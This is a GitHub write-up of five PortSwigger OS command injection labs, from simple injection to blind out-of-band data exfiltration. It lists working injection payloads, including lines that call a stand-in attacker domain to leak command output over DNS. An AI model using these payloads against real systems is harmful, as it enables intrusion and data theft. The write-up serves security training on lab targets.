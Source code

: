 ## Summary
- [Lab1: OS command injection, simple case](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab1-os-command-injection-simple-case)
- [Detecting blind OS command injection using `time delays`](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab2-detecting-blind-os-command-injection-using-time-delays)
- [Lab3: Blind OS command injection with `output redirection`](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab3-blind-os-command-injection-with-output-redirection)
- [Lab4: Blind OS command injection with `out-of-band interaction`](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab4-blind-os-command-injection-with-out-of-band-interaction)
- [Lab5: Blind OS command injection with `out-of-band data exfiltration`](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab5-blind-os-command-injection-with-out-of-band-data-exfiltration)

### Lab1: OS command injection, simple case
- At the first, it is a so simple lab, because it is an `in-bind` command injection vulnerability, and we will receive the response of the command in the application when we test any payload of them.
- In the simple case we will use the `commands separators` or `shell metacharacters` in our payloads.
- Commands separators as: `&, &&, |, ||, ;, \n, $()`
- Many command injection attacks need to use the new line `\n` as URL encoding `%0a`.

```
productId=2+%26+whoami+#&storeId=1
productId=1&storeId=3|whoami
productId=1&storeId=1&&whoami
productId=1&storeId=1%26whoami%26
```
- It is important to make a URL encoding for the commands separators to obfuscate them.
- I think it is best to inject spaces to separate command line arguments and also note to convert any space to a `+` sign.

![Lab1_another_payload2.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/Lab1_another_payload2.png)

-----------------------------------------------------------------------
### Lab2: Detecting blind OS command injection using `time delays`
- It is a blind command injection vulnerability, the server doesn't return the response for us when we send our command, and we won't know if it was executed or not.
- So we will use one of the techniques, which is called `trigger a time delay`.
- We will try to delay the response that we will receive to ensure the command is executed on the server by making the server ping on the localhost.
- If we tried to cause the delay in the parameters, we will find the `email` parameter is vulnerable.

```
email=injection%40gmail.com||sleep 10||subject=...
email=injection%40gmail.com||ping -c 10 127.0.0.1||subject=...
email=injection%40gmail.com & ping -c 10 127.0.0.1 #&subject=...
```
- Don't forget to make URL encodeing.

![Lab2.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/Lab2.png)

-----------------------------------------------------------------------
### Lab3: Blind OS command injection with `output redirection`
- At first, we will try to confirm that there is an OS command injection vulnerability in any parameter by using time delays, I think it is the best way to detect and prove it.

![lab3_confirm.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/lab3_confirm.png)
- I have seen delays in the response time, so I ensured there is a vulnerability in the `email` parameter.
- We will redirect the results of any commands which we want to do in a text file, and we will access this file to retrieve the content.

![lab3_output_redirection.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/lab3_output_redirection.png)
- Now, we want to access this file in the `images` writable directory.
- If you map the application, you will notice the images directory holds all images of the application, and there is a parameter called `filename` that calls the images from the `images` directory.

![lab3_access_file.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/lab3_access_file.png)

-----------------------------------------------------------------------
### Lab4: Blind OS command injection with `out-of-band interaction`
- In this technique, we will try o make the server interact with any server we can control and monitor in order to make sure that the server has sent the request to our server and executed the injected command which we passed into the web application.
- So we can use `ping` to make any request and interact with the domain of our server, or make `nslookup` for the domain to resolve it to the IP address.
- Then we will monitor whether the requests succeeded or not.

```
parameter=value || ping subdomain.webAttacker.com ||
parameter=value || nslookup subdomain.webAttacker.com ||
```
#### `Note:`
- In `lab4 & lab5`, you will use the `Burp Collaborator client`, but you must have the `Burp Suite professional`.
- But in the real world, you can use any server you can control.

-----------------------------------------------------------------------

### Lab5: Blind OS command injection with `out-of-band data exfiltration`
- In another technique, you can encapsulate your command in the injected command during executing the original command when it connects with our server.
- you will make it by using:
	- Backtick character  **\`encapsulated command\`**.
	- Dollar character **$(encapsulated command)**.

```
parameter=value || ping `whoami`.subdomain.webAttacker.com ||
parameter=value || ping $(whoami).subdomain.webAttacker.com ||
parameter=value || nslookup `whoami`.subdomain.webAttacker.com ||
parameter=value || nslookup $(whoami).subdomain.webAttacker.com ||
``` 
